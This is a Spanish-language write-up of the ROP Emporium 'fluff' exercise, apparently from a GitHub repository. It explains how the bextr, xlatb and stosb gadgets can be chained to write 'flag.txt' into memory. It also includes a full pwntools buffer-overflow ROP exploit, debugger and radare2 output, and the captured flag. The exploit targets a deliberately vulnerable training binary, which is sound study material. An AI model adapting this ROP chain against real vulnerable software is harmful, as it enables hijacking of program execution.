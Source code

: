 # fluff

![2025-05-31-155232_808x308_scrot](https://github.com/user-attachments/assets/b21c28b9-2843-4129-b7d4-d66bd9cb58e3)

Mi hardware no soporta bmi1 (binary manipulation instructions) por lo que tuve que emular otra cpu con qemu para poder probar mis exploits.

# x86_64

Mas o menos la misma historia, revisamos `usefulGadgets` y tenemos estos:
```
write_gadget_1 = 0x0040062a          # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret
write_gadget_2 = 0x0000000000400628  # xlatb ; ret
write_gadget_3 = 0x0000000000400639  # stosb byte ptr [rdi], al ; ret
```

El primero usa `bextr`, una instruccion que almacena bits de rdx en rbx segun el contenido de rcx, en breve veremos eso.

El segundo usa `xlatb`, que toma el valor en la direccion [rbx+al] y lo almacena de vuelta en al. O sea que al es el indice tambien.

El tercero usa `stosb`, que practicamente hace lo mismo que mov.

Referencia: https://www.felixcloutier.com/x86/

La estrategia para escribir "flag.txt" en `.data` es la siguiente:
1. Almacenamos la direccion de un byte que contenga un caracter de 'flag.txt' en `rbx` con el primer gadget
2. Copiamos ese byte a `al` con el segundo gadget
3. Copiamos el byte a `.data` con el tercer gadget (para esto tambien necesitamos usar un gadget pop_rdi)

### Paso 1
Segun la documentacion en `rcx[0:7]` se almacena START o indice a partir de donde se comienzan a extraer bytes de `rdx` (LSB), y en `rcx[8:15]` se almacena LENGTH, que es la cantidad de bits que se van a extraer.

La instruccion `add rcx, 0x3ef2;` es una molestia pero se puede resolver con desplazamiento. Si almacenamos el byte en los 32 bits mas significativos y solo extraemos estos entonces resolvemos el problema.

Digamos: `$rdx=0x000000FF00000000` 

cuando se sume queda asi :`$rdx=0x000000FF000003ef2` 

Y extraemos [32:63], quedandonos con `0x000000FF`, nuestro byte.

### Paso 2
En `rbx` almacenamos la direccion del byte (read_addr) - al, porque entonces cuando se ejecute `xlatb`: read_addr - al + al = read_addr.

Para encontrar el valor de al antes de la llamada al gadget debemos usar un debugger para detenernos antes de la llamada al gadget:
``` python
#!/bin/python3
from pwn import *

gadget = 0x00400628
payload = b'A' * 40 + p64(gadget)

# replace tmux with your terminal
context.terminal = ['tmux', 'splitw', '-hp', '70']

# break when ropchain starts
io = gdb.debug('./fluff', '''
               b *0x00400628
               c
               ''')
io.send(payload)
io.interactive()
```

```
pwndbg> info registers al
al             0xb                 11
```

Para encontrar los bytes que vamos a escribir en memoria podemos usar r2:
```
 r2 -A fluff 2>/dev/null
[0x00400520]> / f
0x004003c4 hit0_0 .libfluff.so__gmon_s.
0x004003c7 hit0_1 .libfluff.so__gmon_star.
0x004003c8 hit0_2 .libfluff.so__gmon_start.
0x004003e2 hit0_3 .n_start__print_filepwnme_init.
0x004003f4 hit0_4 .lepwnme_init_finilibc.so.6__.
0x00400552 hit0_5 .@ Df.@U8.
0x0040058a hit0_6 .]8`D]fD8`UH8.
0x004005ca hit0_7 .t]8`]fD=a uUH.
0x004005f6 hit0_8 . ]D@f.UH].
0x004006a6 hit0_9 .H[]A\A]A^A_f.H.
[0x00400520]> / l
0x00400239 hit1_0 ./lib64/ld-linux-x8.
0x0040023f hit1_1 ./lib64/ld-linux-x86-64.s.
0x00400242 hit1_2 ./lib64/ld-linux-x86-64.so.2.
0x004003c1 hit1_3 .@libfluff.so__gmo.
0x004003c5 hit1_4 .libfluff.so__gmon_st.
0x004003e4 hit1_5 .start__print_filepwnme_init_f.
0x004003f9 hit1_6 .nme_init_finilibc.so.6__libc_.
0x00400405 hit1_7 .inilibc.so.6__libc_start_main_.
[0x00400520]> / a
0x004003d6 hit2_0 .uff.so__gmon_start__print_file.
0x0040040c hit2_1 .c.so.6__libc_start_main_edata_.
0x00400411 hit2_2 .6__libc_start_main_edata__bss_.
0x00400418 hit2_3 .c_start_main_edata__bss_start_.
0x0040041a hit2_4 .start_main_edata__bss_start_en.
0x00400424 hit2_5 ._edata__bss_start_endGLIBC_2..
0x004005d2 hit2_6 .]fD=a uUH~.
```

Podemos usar la direccion que nos convenga.

## Paso 3

Escribimos el byte en `.data` + offset, actualizando al con el valor del ultimo byte en cada iteracion.

Exploit:
``` python
from pwn import *
import sys

data_addr = 0x00601028
pop_rdi = 0x00000000004006a3         # pop rdi ; ret
print_file_addr = 0x00400510

write_gadget_1 = 0x0040062a          # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret
write_gadget_2 = 0x0000000000400628  # xlatb ; ret
write_gadget_3 = 0x0000000000400639  # stosb byte ptr [rdi], al ; ret


char_map = {'f': 0x0040058a, 'l': 0x004003e4, 'a': 0x00400424,
            'g': 0x004003cf, '.': 0x004003fd, 't': 0x004003e0,
            'x': 0x00400725}
target_str = "flag.txt"

def write_in_data(addrs):
    p = b""
    al = 11
    for i,char in enumerate(target_str):
        read_addr = char_map[char]
        # set rbx to read_addr
        # rdx[....|LENGTH|START]  to extract higher 32 bits
        rdx = p8(32) + p8(32) + p32(0) + p16(0)
        # rcx = 0xAAAAAAAA0000000 + 0x3ef2 = 0xAAAAAAAA00003ef2
        rcx = p32(0) + p32(read_addr - al)
        p += p64(write_gadget_1) + rdx + rcx
        # xlab does al = [rbx+al]
        p += p64(write_gadget_2)
        p += p64(pop_rdi) + p64(data_addr + i)
        p += p64(write_gadget_3)
        al = ord(char)
    return p

payload = b"A" * 40
payload += write_in_data(char_map)  
payload += p64(pop_rdi)
payload += p64(data_addr)           
payload += p64(print_file_addr)

sys.stdout.buffer.write(payload)
```

``` 
qemu-x86_64 -cpu Haswell ./fluff <<< $(python3 s64.py)
qemu-x86_64: warning: TCG doesn't support requested feature: CPUID.07H:EBX.hle [bit 4]
qemu-x86_64: warning: TCG doesn't support requested feature: CPUID.07H:EBX.rtm [bit 11]
fluff by ROP Emporium
x86_64

You know changing these strings means I have to rewrite my solutions...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
zsh: segmentation fault  qemu-x86_64 -cpu Haswell ./fluff <<< $(python3 s64.py)  
```



